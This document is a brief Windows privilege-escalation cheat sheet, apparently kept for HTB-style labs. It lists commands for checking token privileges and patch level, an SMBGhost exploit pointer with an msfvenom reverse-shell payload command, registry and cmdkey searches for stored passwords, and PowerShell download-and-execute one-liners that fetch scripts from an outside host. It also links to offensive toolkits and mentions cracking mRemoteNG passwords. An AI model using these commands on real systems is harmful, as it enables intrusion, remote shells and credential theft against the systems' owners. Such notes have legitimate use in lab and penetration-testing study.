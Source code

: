 # privesc

If there is SeImpersonate privilege here you can run the JuicyPotato exploit to get a system shell, and there might be some privileges that you can use if its an AD environment

```
whoami /priv
```

windows last patched march 2020 or before, you can try SMBGhost vulnerability

```
wmic qfe list
(https://github.com/danigargu/CVE-2020-0796) - Starting with line 204 in
exploit.cpp, we’ll replace the shellcode with a reverse shell.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.118.3 LPORT=8081 -f dll -f csharp
```

```
reg query HKLM /f pass /t REG_SZ /s
cmdkey /list
```

Once you get a shell on the box, you can run Sherlock to check if you have any vulnerable exploits

```
iex(new-object net.webclient).downloadstring('http://10.10.14.28/shell.ps1')

# sometimes when powershell doesn't load properly, its worth to try this way
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.25/Sherlock.ps1') | PowerShell -Noprofile -
```

if you're on `meterpreter`, run the exploit suggester with both x86 meterpreter and x64 meterpreter.

```
# collection of payloads and powershell scripts
https://github.com/samratashok/nishang

# local windows exploit suggester that you can run in you linux machine
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
# to run powershell script on the shell windows machine for exploits
https://github.com/rasta-mouse/Sherlock

# this can be used to get a meterpreter shell once you've got a normal shell
https://github.com/trustedsec/unicorn
```

```
https://0xdf.gitlab.io/2019/09/07/htb-bastion.html#privesc-to-administrator

mremoteng privesc by cracking passwords in the mremoteng xml file..
```

